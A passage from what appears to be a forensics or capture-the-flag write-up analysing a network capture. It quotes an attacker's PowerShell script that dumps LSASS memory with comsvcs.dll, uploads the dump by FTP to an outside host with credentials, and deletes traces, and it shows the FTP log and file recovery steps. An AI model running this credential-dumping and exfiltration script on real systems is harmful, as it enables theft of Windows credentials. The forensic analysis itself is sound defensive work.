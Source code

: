 Let's analyze the most interesting part:

```powershell
Remove-Item -Path C:\windows\temp\3858793632.pmd -Force -ErrorAction Ignore;
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id C:\windows\temp\3858793632.pmd full | out-host;
Compress-Archive  C:\windows\temp\3858793632.pmd  C:\windows\temp\3858793632.zip;
Remove-Item -Path C:\windows\temp\3858793632.pmd -Force -ErrorAction Ignore;
$cl = New-Object System.Net.WebClient;
$f = "C:\windows\temp\3858793632.zip";
$s = "ftp://ftpuser:SZC0aBomFG@windowsliveupdater.com/3858793632.zip";
$u = New-Object System.Uri($s);
$cl.UploadFile($u, $f);
Remove-Item -Path C:\windows\temp\3858793632.zip -Force -ErrorAction Ignore;
```

1. The command creates a `minidump` from the `lsass` process using `comsvcs.dll`.
2. It compresses the dump.
3. Uploads the compressed dump to a remote FTP server.
4. Deletes the evidences.

From the words `lsass` and `dump` one might immediately think about `mimikatz` and password hashes. Let's save this idea for later.

TCP stream 4 contains the FTP communication:

```
220 (vsFTPd 3.0.3)
USER ftpuser
331 Please specify the password.
PASS SZC0aBomFG
230 Login successful.
OPTS utf8 on
200 Always in UTF8 mode.
PWD
257 "/" is the current directory
TYPE I
200 Switching to Binary mode.
PASV
227 Entering Passive Mode (77,74,198,52,226,112).
STOR 3858793632.zip
150 Ok to send data.
226 Transfer complete.
```

And TCP stream 5 contains the transferred [`3858793632.zip`](files/3858793632.zip) which we can copy from `Wireshark` as a hex stream and convert it to binary with `Python` or `xxd -r -p`.

```
$ ls -la
.rw-r--r-- manjaro manjaro 21 MB Fri Jul 15 19:22:03 2022  3858793632.zip
$ unzip 3858793632.zip
$ ls -la 3858793632.pmd 
.rw-r--r-- manjaro manjaro 55 MB Mon Jul  4 04:39:18 2022  3858793632.pmd
```
